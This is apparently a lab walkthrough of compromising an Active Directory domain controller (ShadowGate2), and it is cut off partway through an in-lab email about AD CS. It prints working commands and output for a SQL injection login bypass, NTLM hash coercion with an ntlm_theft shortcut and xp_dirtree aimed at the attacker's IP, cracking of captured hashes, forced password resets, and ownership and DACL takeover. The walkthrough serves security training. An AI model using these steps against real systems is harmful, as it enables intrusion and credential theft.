In this walkthrough, we will be compromising ShadowGate2, a medium-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. A web portal falls to a SQL injection bypass, and a dev file-upload feature that drops files onto an SMB share lets us capture the NTLMv2 hash of `mitch.r`. From there an ACL chain carries us through `milo.w`, `svc_mssql`, `bogdan.r`, and `oscar.m`, using forced password changes, a WriteOwner takeover, and an `xp_dirtree` hash capture. An email points us at a deleted account, `sam.h`, which we restore from the AD recycle bin. As `sam.h` we abuse an ESC3 enrollment agent template to enroll on behalf of `Administrator` and pull the Administrator NT hash for full domain compromise.



Created by: [2ubZ3r0](https://www.hacksmarter.org/courses/6f9f20a1-0381-4e65-8456-6a278f5b2918)

Let's get started.

## Objective

ShadowGate provides cybersecurity solutions for global enterprises. They are in the process of getting SOC 2 certified, and have hired Hack Smarter to perform an internal network penetration test. Find all vulnerabilities and, if possible, elevate your privileges to Domain Admin.

You have been provided with VPN access to their network, but no other information.

## Scope

**Target:** `10.1.24.100`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.24.100 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: ShadowGate | Advanced Cyber Security Solutions
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-07-25 21:35:49Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadowgate.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=SG-DC01.shadowgate.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:SG-DC01.shadowgate.local
| Issuer: commonName=Shadowgate-CA/domainComponent=shadowgate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-12-07T17:46:45
| Not valid after:  2026-12-07T17:46:45
| MD5:     016f ca06 03dd b832 2cce 8260 67b9 a567
| SHA-1:   040e a191 a804 b2b2 7248 1ca6 06a5 87fa c32d 2b8a
| SHA-256: 2fe1 374d 8eb3 cfd6 a7d6 10a0 cb55 660f 5610 0798 c1dd 5fc1 c732 8469 04e7 6f9e
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      syn-ack ttl 126 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.1.24.100:1433: 
|     Target_Name: SHADOWGATE
|     NetBIOS_Domain_Name: SHADOWGATE
|     NetBIOS_Computer_Name: SG-DC01
|     DNS_Domain_Name: shadowgate.local
|     DNS_Computer_Name: SG-DC01.shadowgate.local
|     DNS_Tree_Name: shadowgate.local
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.1.24.100:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-25T21:27:26
| Not valid after:  2056-07-25T21:27:26
| MD5:     e35c bc04 0147 95b7 04ad 4d94 b4e4 d169
| SHA-1:   42a0 6e05 54c2 8e4b d406 c5fe e272 02fd fe0d ce6f
| SHA-256: 60de d24d ebca 7741 5d63 3ac5 3bdd 6f15 82b1 3807 a174 55f9 8ad8 ea24 3bca 688d
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadowgate.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SG-DC01.shadowgate.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:SG-DC01.shadowgate.local
| Issuer: commonName=Shadowgate-CA/domainComponent=shadowgate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-12-07T17:46:45
| Not valid after:  2026-12-07T17:46:45
| MD5:     016f ca06 03dd b832 2cce 8260 67b9 a567
| SHA-1:   040e a191 a804 b2b2 7248 1ca6 06a5 87fa c32d 2b8a
| SHA-256: 2fe1 374d 8eb3 cfd6 a7d6 10a0 cb55 660f 5610 0798 c1dd 5fc1 c732 8469 04e7 6f9e
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadowgate.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=SG-DC01.shadowgate.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:SG-DC01.shadowgate.local
| Issuer: commonName=Shadowgate-CA/domainComponent=shadowgate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-12-07T17:46:45
| Not valid after:  2026-12-07T17:46:45
| MD5:     016f ca06 03dd b832 2cce 8260 67b9 a567
| SHA-1:   040e a191 a804 b2b2 7248 1ca6 06a5 87fa c32d 2b8a
| SHA-256: 2fe1 374d 8eb3 cfd6 a7d6 10a0 cb55 660f 5610 0798 c1dd 5fc1 c732 8469 04e7 6f9e
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SHADOWGATE
|   NetBIOS_Domain_Name: SHADOWGATE
|   NetBIOS_Computer_Name: SG-DC01
|   DNS_Domain_Name: shadowgate.local
|   DNS_Computer_Name: SG-DC01.shadowgate.local
|   DNS_Tree_Name: shadowgate.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-25T21:36:45+00:00
| ssl-cert: Subject: commonName=SG-DC01.shadowgate.local
| Issuer: commonName=SG-DC01.shadowgate.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-18T09:38:28
| Not valid after:  2027-01-17T09:38:28
| MD5:     9ef5 efd9 61d1 a900 d192 dddf 2333 805a
| SHA-1:   f4f9 efa1 913e 0774 582f e4f0 a512 c901 11e7 3243
| SHA-256: 9c43 79d8 9e1d 4aca ff43 8e5d ebe8 7c67 fecf b3db 6285 6a3f f709 2cae a628 68e1
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49701/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49738/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49835/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
54311/tcp open  ms-sql-s      syn-ack ttl 126 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.1.24.100:54311: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 54311
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-25T21:27:26
| Not valid after:  2056-07-25T21:27:26
| MD5:     e35c bc04 0147 95b7 04ad 4d94 b4e4 d169
| SHA-1:   42a0 6e05 54c2 8e4b d406 c5fe e272 02fd fe0d ce6f
| SHA-256: 60de d24d ebca 7741 5d63 3ac5 3bdd 6f15 82b1 3807 a174 55f9 8ad8 ea24 3bca 688d
|_ssl-date: 2026-07-25T21:37:25+00:00; -1s from scanner time.
| ms-sql-ntlm-info: 
|   10.1.24.100:54311: 
|     Target_Name: SHADOWGATE
|     NetBIOS_Domain_Name: SHADOWGATE
|     NetBIOS_Computer_Name: SG-DC01
|     DNS_Domain_Name: shadowgate.local
|     DNS_Computer_Name: SG-DC01.shadowgate.local
|     DNS_Tree_Name: shadowgate.local
|_    Product_Version: 10.0.17763
Service Info: Host: SG-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, SMB on 445, RDP on 3389, and WinRM on 5985, with IIS on 80 and SQL Server 2019 on 1433 also exposed. The LDAP banner confirms the domain as `shadowgate.local` and the hostname as `SG-DC01.shadowgate.local`, and the SSL certificate issuer reveals a CA named `Shadowgate-CA`. Add `shadowgate.local` and `SG-DC01.shadowgate.local` to `/etc/hosts` before continuing.

## HTTP (Port 80)

Port 80 serves the ShadowGate company site. Its Our Team page lists employee names, and hovering the Apply Now button reveals a careers email.



*The ShadowGate homepage on port 80, advertising their cyber security solutions*



*The Our Team page listing ShadowGate employees, with careers@shadowgate.local revealed on hovering the Apply Now button*

Nothing else on the site stands out, so we fuzz for virtual hosts with ffuf, filtering out the default response size.

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -u http://10.1.24.100/ -H "Host: FUZZ.shadowgate.local" -fs 63405
```

```
________________________________________________

 :: Method           : GET
 :: URL              : http://10.1.24.100/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
 :: Header           : Host: FUZZ.shadowgate.local
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 63405
________________________________________________

dev                     [Status: 200, Size: 14924, Words: 4761, Lines: 425, Duration: 93ms]
```

The `dev` virtual host answers, so we add `dev.shadowgate.local` to `/etc/hosts` and load it.

## Access as mitch.r

The dev subdomain hosts a developer file upload portal that describes its own workflow.

```
File Upload Workflow

Developer Upload: Upload your files to the secure development portal

Automated Processing: Files are automatically transferred to the dev$ network share

Security Review: All uploaded files are reviewed and processed by mitch.r

Secure Storage: Files are stored in encrypted format with access logging
```



*Dev upload portal describing automatic transfer to the dev$ share and review by mitch.r*

Uploaded files land on the `dev$` share and are reviewed by `mitch.r`, so a file that forces an SMB authentication back to us should capture that account's hash. The employee names would give us a username list, but we have no passwords to go with them. Before building that list and spraying, we test the login panel for other vulnerabilities. SQL injection is the first thing to try, injecting `admin' --` into the username field to comment out the password check.

```
admin' --
```



*Injecting `admin' --` into the portal username field*

The check is bypassed and we land in the portal.



*Portal authentication bypassed, logged in as admin*

We build a shortcut with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that forces an outbound SMB connection when the folder is listed. The `-s` flag points it at our host.

```
python3 ntlm_theft.py -g lnk -s 10.200.74.95 -f shadowgate
```

```
Created: shadowgate/shadowgate.lnk (BROWSE TO FOLDER)
Generation Complete.
```



*ntlm_theft generating the SMB coercion shortcut for the shadowgate host*

We start Responder on the tunnel interface to catch the incoming authentication.

```
sudo responder -I tun0
```

With Responder listening, we upload the `.lnk` file. When the share lists the directory, Explorer resolves the shortcut over SMB and the hash lands.

```
[+] Listening for events...                                                                                                                                                                  

[SMB] NTLMv2-SSP Client   : 10.1.24.100
[SMB] NTLMv2-SSP Username : SHADOWGATE\mitch.r
[SMB] NTLMv2-SSP Hash     : mitch.r::SHADOWGATE:29aba6f298002ebc:DC208FB450357C167BC5125582D10038:0101000000000000007C5EAC691CDD01B64CADBEDE38F4480000000002000800380052004F004E0001001E00570049004E002D003000390043003200440050003500420038003200420004003400570049004E002D00300039004300320044005000350042003800320042002E00380052004F004E002E004C004F00430041004C0003001400380052004F004E002E004C004F00430041004C0005001400380052004F004E002E004C004F00430041004C0007000800007C5EAC691CDD0106000400020000000800300030000000000000000100000000200000FDBE2A6A421717EADF6DBEF626E3D7362BA3E7B7824FF29CFD9B61577DACC0FC0A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00370034002E00390035000000000000000000  
```



*Responder catching the NTLMv2 hash for SHADOWGATE\mitch.r*

We save the hash to `mitch_r_hash.txt` and crack it with john.

```
john mitch_r_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snitch1993       (mitch.r)     
1g 0:00:00:01 DONE (2026-07-25 19:19) 0.7246g/s 2656Kp/s 2656Kc/s 2656KC/s snoedrop..snickers49
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```



*john recovering snitch1993 from the mitch.r NTLMv2 hash*

Cracked. We validate `mitch.r:snitch1993` and enumerate shares.

```
nxc smb 10.1.24.100 -u 'mitch.r' -p 'snitch1993' --shares
```

```
SMB         10.1.24.100     445    SG-DC01          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SG-DC01) (domain:shadowgate.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.24.100     445    SG-DC01          [+] shadowgate.local\mitch.r:snitch1993 
SMB         10.1.24.100     445    SG-DC01          [*] Enumerated shares
SMB         10.1.24.100     445    SG-DC01          Share           Permissions     Remark
SMB         10.1.24.100     445    SG-DC01          -----           -----------     ------
SMB         10.1.24.100     445    SG-DC01          ADMIN$                          Remote Admin
SMB         10.1.24.100     445    SG-DC01          C$                              Default share
SMB         10.1.24.100     445    SG-DC01          dev$            READ,WRITE      
SMB         10.1.24.100     445    SG-DC01          IPC$            READ            Remote IPC
SMB         10.1.24.100     445    SG-DC01          NETLOGON        READ            Logon server share 
SMB         10.1.24.100     445    SG-DC01          SYSVOL          READ            Logon server share 
```



*Validating mitch.r credentials with NetExec*

Credentials are valid, with READ and WRITE on `dev$`.

## BloodHound Enumeration

Cracking one account only matters if it leads somewhere, so we follow the [AD mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/) to domain mapping and see where `mitch.r` goes. NetExec's built-in collector chokes on this host, so we call BloodHound.py for Community Edition directly, pointing it at the DC for name resolution.

```
bloodhound-ce-python -u 'mitch.r' -p 'snitch1993' -d shadowgate.local -ns 10.1.24.100 -c All --zip
```

```
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: shadowgate.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: sg-dc01.shadowgate.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: sg-dc01.shadowgate.local
INFO: Found 11 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SG-DC01.shadowgate.local
INFO: Done in 00M 15S
INFO: Compressing output into 20260726180050_bloodhound.zip
```

We import the data and mark `mitch.r` as owned. Outbound object control shows `ForceChangePassword` over two accounts, `ryan.j` and `milo.w`. `milo.w` in turn holds `WriteOwner` over `svc_mssql`, so we target `milo.w`.



*BloodHound ForceChangePassword: mitch.r over ryan.j and milo.w*



*BloodHound WriteOwner: milo.w over svc_mssql*

## Access as milo.w

`ForceChangePassword` lets us set a new password on the target without knowing the current one. We set one with `net rpc`.

```
net rpc password "milo.w" "0xB1rdWasHere1337" -U "shadowgate.local"/"mitch.r"%"snitch1993" -S "10.1.24.100"
```

The command returns silently, which typically means success. We validate the new credentials.

```
nxc smb 10.1.24.100 -u 'milo.w' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.1.24.100     445    SG-DC01          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SG-DC01) (domain:shadowgate.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.24.100     445    SG-DC01          [+] shadowgate.local\milo.w:0xB1rdWasHere1337 
SMB         10.1.24.100     445    SG-DC01          [*] Enumerated shares
SMB         10.1.24.100     445    SG-DC01          Share           Permissions     Remark
SMB         10.1.24.100     445    SG-DC01          -----           -----------     ------
SMB         10.1.24.100     445    SG-DC01          ADMIN$                          Remote Admin
SMB         10.1.24.100     445    SG-DC01          C$                              Default share
SMB         10.1.24.100     445    SG-DC01          dev$            READ,WRITE      
SMB         10.1.24.100     445    SG-DC01          IPC$            READ            Remote IPC
SMB         10.1.24.100     445    SG-DC01          NETLOGON        READ            Logon server share 
SMB         10.1.24.100     445    SG-DC01          SYSVOL          READ            Logon server share 
```



*Validating the new milo.w credentials with NetExec*

We own `milo.w` and have the same share access as before.

## Access as svc_mssql

`WriteOwner` lets us set ourselves as the object's owner, and an owner can rewrite the DACL to grant itself full control. We take ownership of `svc_mssql` first.

```
impacket-owneredit -action write -new-owner 'milo.w' -target 'svc_mssql' 'shadowgate.local'/'milo.w':'0xB1rdWasHere1337'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-2396436576-3267128377-3646372360-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=shadowgate,DC=local
[*] OwnerSid modified successfully!
```



*impacket-owneredit setting milo.w as the owner of svc_mssql*

With ownership set, we grant `milo.w` full control over the DACL.

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'milo.w' -target 'svc_mssql' 'shadowgate.local'/'milo.w':'0xB1rdWasHere1337'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260726-182606.bak
[*] DACL modified successfully!
```



*dacledit granting milo.w FullControl over svc_mssql*

Full control includes the password reset primitive, the same one `ForceChangePassword` gave us earlier. We set a new password on `svc_mssql`.

```
net rpc password "svc_mssql" "0xB1rdWasHere1337" -U "shadowgate.local"/"milo.w"%"0xB1rdWasHere1337" -S "10.1.24.100"
```

The command returns silently again, so we connect to SQL Server with the new credentials over Windows authentication.

```
impacket-mssqlclient shadowgate.local/'svc_mssql':'0xB1rdWasHere1337'@10.1.24.100 -windows-auth
```



*impacket-mssqlclient authenticating to SQL Server as svc_mssql with the new password*

We list the databases.

```
SELECT name FROM sys.databases;
```



*Enumerating databases as svc_mssql over the MSSQL client*

Switching between the databases shows what this account can read.

```
USE ShadowGate;
USE master;
```



*svc_mssql lacks access to the application databases*

No useful access to the application databases. We profile the instance to look for a route to command execution.

```
SELECT @@SERVERNAME AS server_name, SYSTEM_USER AS login, CASE WHEN EXISTS(SELECT 1 FROM sys.configurations WHERE name='xp_cmdshell' AND value_in_use=1) THEN 'ENABLED' ELSE 'DISABLED' END AS xp_cmdshell, CASE WHEN IS_SRVROLEMEMBER('sysadmin')=1 THEN 'YES' ELSE 'NO' END AS sysadmin, CASE WHEN EXISTS(SELECT 1 FROM sys.configurations WHERE name='show advanced options' AND value_in_use=1) THEN 'ENABLED' ELSE 'DISABLED' END AS advanced_options;
```

```
server_name          login                  xp_cmdshell   sysadmin   advanced_options
------------------   --------------------   -----------   --------   ----------------
SG-DC01\SQLEXPRESS   SHADOWGATE\svc_mssql   b'DISABLED'   b'NO'      b'DISABLED'
```



*MSSQL instance profile: the svc_mssql login holds no sysadmin*

The login holds no sysadmin, so we cannot enable `xp_cmdshell` ourselves and command execution is out.

We enumerate the server logins instead.

```
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE type IN ('S','U','G') AND name NOT LIKE '##%' AND name NOT IN ('sa','guest') ORDER BY name;
```

```
name                   type_desc       is_disabled
--------------------   -------------   -----------
SHADOWGATE\bogdan.r    WINDOWS_LOGIN             0
SHADOWGATE\svc_mssql   WINDOWS_LOGIN             0
```



*The server-login query returning bogdan.r and svc_mssql as Windows logins*

A `bogdan.r` domain login turns up alongside our `svc_mssql`. We can still coerce whatever account the SQL service runs as into authenticating to us with `xp_dirtree`, which lists a UNC path. We start Responder again.

```
sudo responder -I tun0
```

Then point `xp_dirtree` at our share.

```
EXEC xp_dirtree '\\10.200.74.95\share';
```



*Forcing an SMB connection out of SQL Server with xp_dirtree*

Responder catches the NTLMv2 hash of `bogdan.r`, the account the SQL Server service runs as.



*Responder catching the NTLMv2 hash for bogdan.r via xp_dirtree*

We save it to `bogdan_r_hash.txt` and crack it with john.

```
john bogdan_r_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bogdan0126       (bogdan.r)     
1g 0:00:00:04 DONE (2026-07-26 19:34) 0.2493g/s 2379Kp/s 2379Kc/s 2379KC/s boiadee..bog625sulk115
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```



*john recovering bogdan0126 from the bogdan.r NTLMv2 hash*

## Access as bogdan.r

We validate `bogdan.r:bogdan0126` with NetExec.

```
nxc smb 10.1.24.100 -u 'bogdan.r' -p 'bogdan0126' --shares
```

```
SMB         10.1.24.100     445    SG-DC01          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SG-DC01) (domain:shadowgate.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.24.100     445    SG-DC01          [+] shadowgate.local\bogdan.r:bogdan0126 
SMB         10.1.24.100     445    SG-DC01          [*] Enumerated shares
SMB         10.1.24.100     445    SG-DC01          Share           Permissions     Remark
SMB         10.1.24.100     445    SG-DC01          -----           -----------     ------
SMB         10.1.24.100     445    SG-DC01          ADMIN$                          Remote Admin
SMB         10.1.24.100     445    SG-DC01          C$                              Default share
SMB         10.1.24.100     445    SG-DC01          dev$            READ,WRITE      
SMB         10.1.24.100     445    SG-DC01          IPC$            READ            Remote IPC
SMB         10.1.24.100     445    SG-DC01          NETLOGON        READ            Logon server share 
SMB         10.1.24.100     445    SG-DC01          SYSVOL          READ            Logon server share 
```



*Validating bogdan.r credentials with NetExec*

Back in BloodHound, `bogdan.r` holds `GenericAll` over `daniel.r` and `oscar.m`. `oscar.m` is a member of both Remote Management Users and Certificate Service DCOM Access, which makes it the more useful target.



*BloodHound GenericAll: bogdan.r over daniel.r and oscar.m*



*BloodHound showing oscar.m membership in Remote Management Users and Certificate Service DCOM Access*

## Access as oscar.m

`GenericAll` allows a password reset, so we force a change on `oscar.m`.

```
net rpc password "oscar.m" "0xB1rdWasHere1337" -U "shadowgate.local"/"bogdan.r"%"bogdan0126" -S "10.1.24.100"
```

The command returns silently, but validating the new password gives a different result than before.

```
nxc smb 10.1.24.100 -u 'oscar.m' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.1.24.100     445    SG-DC01          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SG-DC01) (domain:shadowgate.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.24.100     445    SG-DC01          [-] shadowgate.local\oscar.m:0xB1rdWasHere1337 STATUS_INVALID_LOGON_HOURS
```



*oscar.m authentication rejected with STATUS_INVALID_LOGON_HOURS*

The password change works, but `STATUS_INVALID_LOGON_HOURS` means the account is restricted to a logon schedule that does not include now. `GenericAll` also lets us write the account's attributes, so we overwrite `logonHours` with an all-ones value that permits authentication at any hour.

```
bloodyad -u 'bogdan.r' -p 'bogdan0126' -d 'shadowgate.local' --host '10.1.24.100' set object 'CN=oscar.m,CN=Users,DC=shadowgate,DC=local' logonHours -v '////////////////////////////' --b64
```

```
[!] Attribute encoding not supported for logonHours with bytes attribute type, using raw mode
[+] CN=oscar.m,CN=Users,DC=shadowgate,DC=local's logonHours has been updated
```



*bloodyAD setting oscar.m logonHours to allow any time*

With the schedule cleared, the same credentials authenticate.

```
nxc smb 10.1.24.100 -u 'oscar.m' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.1.24.100     445    SG-DC01          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SG-DC01) (domain:shadowgate.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.24.100     445    SG-DC01          [+] shadowgate.local\oscar.m:0xB1rdWasHere1337 
SMB         10.1.24.100     445    SG-DC01          [*] Enumerated shares
SMB         10.1.24.100     445    SG-DC01          Share           Permissions     Remark
SMB         10.1.24.100     445    SG-DC01          -----           -----------     ------
SMB         10.1.24.100     445    SG-DC01          ADMIN$                          Remote Admin
SMB         10.1.24.100     445    SG-DC01          C$                              Default share
SMB         10.1.24.100     445    SG-DC01          dev$            READ,WRITE      
SMB         10.1.24.100     445    SG-DC01          IPC$            READ            Remote IPC
SMB         10.1.24.100     445    SG-DC01          NETLOGON        READ            Logon server share 
SMB         10.1.24.100     445    SG-DC01          SYSVOL          READ            Logon server share 
```



*Validating oscar.m after clearing the logon hour restriction*

## Certipy Enumeration

`oscar.m` is in Certificate Service DCOM Access. That group only grants DCOM access to the CA and a default install puts Authenticated Users in it, so it is not a privilege. What it tells us is that AD CS is deployed here. Any authenticated account can enumerate the CA, so we run Certipy as `oscar.m` to look for vulnerable templates.

```
certipy-ad find -u 'oscar.m@shadowgate.local' -p '0xB1rdWasHere1337' -dc-ip 10.1.24.100 -target SG-DC01.shadowgate.local -ldap-scheme ldap -stdout -vulnerable
```

```
Certificate Authorities
  0
    CA Name                             : Shadowgate-CA
    DNS Name                            : SG-DC01.shadowgate.local
    Certificate Subject                 : CN=Shadowgate-CA, DC=shadowgate, DC=local
    Certificate Serial Number           : 3DADB967D3C30DB94A9620C07D4332B0
    Certificate Validity Start          : 2025-12-07 17:37:04+00:00
    Certificate Validity End            : 2124-12-07 17:47:04+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOWGATE.LOCAL\Administrators
      Access Rights
        Enroll                          : SHADOWGATE.LOCAL\Authenticated Users
                                          SHADOWGATE.LOCAL\sam.h
        ManageCa                        : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
                                          SHADOWGATE.LOCAL\Administrators
                                          SHADOWGATE.LOCAL\sam.h
        ManageCertificates              : SHADOWGATE.LOCAL\Domain Admins
                                          SHADOWGATE.LOCAL\Enterprise Admins
                                          SHADOWGATE.LOCAL\Administrators
        Read                            : SHADOWGATE.LOCAL\sam.h
Certificate Templates                   : [!] Could not find any certificate templates
```



*Certipy as oscar.m finds the CA but no accessible templates*

Certipy finds the CA but no templates this account can reach. In the permissions, alongside the usual admin groups, a user named `sam.h` holds enroll and CA management rights, and that account does not appear anywhere in our BloodHound data.

## Shell as oscar.m (user.txt)

`oscar.m` is also in Remote Management Users, so we take an interactive session with Evil-WinRM.

```
evil-winrm -i '10.1.24.100' -u 'oscar.m' -p '0xB1rdWasHere1337'
```

The WinRM session lands and `user.txt` is on the desktop.



*Evil-WinRM session as oscar.m with user.txt captured*

Looking through the profile, there is a `Mails` folder under `C:\Users\oscar.m` holding a file named `termination_notice_sam_h.eml`.

```
From: mitch.r
To: oscar.m
Subject: Update Regarding Sam H.'s Departure

Hi Oscar,

I wanted to inform you that Sam H. has officially resigned from his position. His user account is no longer needed and should be removed from the system.

Additionally, since Sam was responsible for certificate issuance management (Manage-CA), please identify a suitable replacement to ensure that our certificate services continue operating without interruption.

During a recent internal review, we also identified a potential ESC-related misconfiguration within our Active Directory Certificate Services environment. While no abuse has been confirmed, the configuration could allow unintended certificate enrollment or privilege escalation if left unmanaged. This finding further emphasizes the need for proper ownership and oversight of the CA role.

As a temporary security measure, the LDAP/RPC enrollment ports on the CA server have been blocked at the firewall, since there is currently no designated staff member to oversee certificate operations.

Please note:
If no suitable successor for Sam's role is appointed in a timely manner, we may be required to shut down the certificate service entirely. Without proper oversight, there is a heightened risk that someone could attempt to bypass or tunnel around the firewall restrictions, especially in light of the identified ESC weakness, leading to potential misuse of our enrollment endpoints. This measure would be taken to ensure the security and integrity of our environment.

Once a new responsible person is appointed, the blocked ports can be re-enabled to restore full certificate enrollment capabilities.

